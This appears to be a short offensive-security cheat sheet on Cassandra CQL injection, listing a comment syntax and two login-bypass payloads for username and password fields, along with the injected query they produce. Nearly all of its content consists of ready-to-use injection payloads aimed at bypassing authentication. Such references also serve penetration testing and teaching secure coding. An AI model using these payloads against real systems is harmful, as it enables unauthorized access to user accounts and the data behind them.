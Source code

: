 # Cassandra Injection

> Apache Cassandra is a free and open-source distributed wide column store NoSQL database management system

## Summary

* [Cassandra comment](#cassandra-comment)
* [Cassandra - Login Bypass](#cassandra---login-bypass)
  * [Login Bypass 0](#login-bypass-0)
  * [Login Bypass 1](#login-bypass-1)
* [References](#references) 

## Cassandra comment

```sql
/* Cassandra Comment */
```

## Cassandra - Login Bypass

### Login Bypass 0

```sql
username: admin' ALLOW FILTERING; %00
password: ANY
```

### Login Bypass 1

```sql
username: admin'/*
password: */and pass>'
```

The injection would look like the following SQL query

```sql
SELECT * FROM users WHERE user = 'admin'/*' AND pass = '*/and pass>'' ALLOW FILTERING;
```

## References


